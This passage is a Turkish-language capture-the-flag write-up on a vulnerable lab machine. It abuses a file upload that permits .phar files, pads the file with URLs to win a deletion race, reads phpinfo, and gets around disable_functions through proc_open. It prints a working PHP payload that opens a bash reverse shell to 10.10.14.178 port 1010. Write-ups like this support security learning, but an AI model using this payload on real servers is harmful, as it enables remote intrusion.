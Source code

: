 Bir dosya yükleme kısmı var ve dosyanın boyutu, uzantısı kontrol ediliyor. Dosya uzantısı olarak `.phar` yasaklanmamış. Yani php kodları upload edebiliriz.

Koda bakmaya devam ettiğimde `uploads/` dizini altında bir md5 klasör oluşturuluyor ve içerisine dosyamız yükleniyor. Sonrasında dosya içindeki url’ler kontrol ediliyor çalışıyorsa `is up` çalışmıyorsa `is down` yanıtı veriyor ve ardından dosyayı siliyor.

Dosya silme süresini uzatmak için dosyanın içerisine oldukça fazla url ekliyorum ve en sonuna da php kodunu yerleştiriyorum.

```
http://google.com
http://google.com
[...]
http://google.com
http://google.com

<?php phpinfo();?>
```

Dosyanın oluşturulduğu yere gidelim.

![https://i.ibb.co/qg59yK6/uploadss.png](https://i.ibb.co/qg59yK6/uploadss.png)

yaşattığımız gecikmeden dolayı dosyanın hâla silinmediğini görüyoruz.

# <span style="color:#AA0E1C"><b># FootHold: Shell as www-data</b></span>

![https://i.ibb.co/KLp7KKv/phpinfo.png](https://i.ibb.co/KLp7KKv/phpinfo.png)

phpinfo sayfasını görüntüleyebiliyorum. Burada incelediğim şey `disable_functions` altındaki fonksiyonlardır. Neredeyse komut çalıştırmak için kullanabileceklerimizin hepsi disable edilmiş gibi duruyor. `proc_open` hariç.

[proc_open](https://www.php.net/manual/tr/function.proc-open.php)

```
http://google.com
http://google.com
[...]
http://google.com
http://google.com

<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // Any error output will be appended to /tmp/error-output.txt
    fwrite($pipes[0], "bash -c 'exec bash -i &>/dev/tcp/10.10.14.178/1010 <&1'");
    fclose($pipes[0]);
    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);
    $return_value = proc_close($process);
    echo "command returned $return_value\n";
}
?>
```